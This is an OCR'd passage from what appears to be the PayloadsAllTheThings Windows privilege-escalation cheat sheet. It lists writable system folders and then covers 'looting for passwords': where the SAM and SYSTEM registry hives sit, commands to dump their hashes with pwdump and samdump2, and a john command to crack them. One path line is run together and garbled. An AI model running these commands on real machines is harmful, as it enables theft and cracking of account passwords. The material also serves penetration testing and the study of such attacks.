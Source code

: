 C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\Tasks
C:\windows\tracing

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='45'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1281' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords)EoP - Looting for passwords

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='46'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1283' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#sam-and-system-files)SAM and SYSTEM files

The Security Account Manager (SAM), often Security Accounts Manager, is a database file. The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

# Usually %SYSTEMROOT% = C:\Windows%SYSTEMROOT%epair\SAM%SYSTEMROOT%\System32\config\RegBack\SAM%SYSTEMROOT%\System32\config\SAM%SYSTEMROOT%epair\system%SYSTEMROOT%\System32\config\SYSTEM%SYSTEMROOT%\System32\config\RegBack\system

Generate a hash file for John using `pwdump` or `samdump2`.
pwdump SYSTEM SAM >  /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
Then crack it with `john -format=NT /root/sam.txt`.
